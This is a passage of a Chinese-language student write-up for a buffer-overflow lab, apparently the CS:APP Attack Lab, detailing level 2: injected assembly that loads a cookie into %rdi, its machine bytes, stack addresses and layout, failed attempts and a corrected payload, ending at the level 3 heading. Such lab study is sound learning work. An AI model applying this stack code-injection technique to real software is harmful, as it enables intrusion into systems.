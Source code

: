 ```c
  exit(0);
}
```
ret 从栈中弹出一个地址，并跳转到这个地址。
查阅知进入getbuf后，`%rsp-0x28`后的地址为`0x5561dc78`
我的cookie是：`0x59b997fa`
exploit code:
```assembly
movq $0x59b997fa,%rdi
ret
```
```
0: 48 c7 c7 fa 97 b9 59   movq $0x59b997fa,%rdi
7: c3                 retq
```
栈结构：

- exploit code
- address of touch2
- %rsp => -address of exploit code (`0x5561dc78 + 0x28 + 0x8 + 0x8 = 0x5561dcb0`)

touch2
`0x00000000004017ec <+0>:	sub    $0x8,%rsp`

problems encountered and solutions:
movq只能传送32位补码数字的立即数作为源操作数。然后将这个值符号拓展到64位。
而我的cookie是0x59b997fa，显然
```
0: bf fa 97 b9 59   movl $0x59b997fa,%edi
5: c3            retq
```
```
0: bf fa 97 b9 59  movl $0x59b997fa,%edi$
5: 48 83 ec 18   sub $0x18,%rsp
9: c3   retq
```
以上对level2的尝试均告失败:sob::sob:，报错均为`segmatation fault`。
因为我将攻击代码写到了该函数可用空间的外面。应该将代码写到`%rsp ~ %rsp-0x28`的范围内。

正确栈结构：

- address of touch2(0x4017ec)
- %rsp=> exploit code address(0x5561dc78)
- ...some char...
- 0x5561dc78:bf fa 97 b9 59 c3

> 也可以使用这样的攻击代码
> ```assembly
> movl $cookie,%rdi
> pushq $0x4017ec
> ret
> ```
> 这样就不用自己再栈中写入touch2的开始地址了。

## level 3
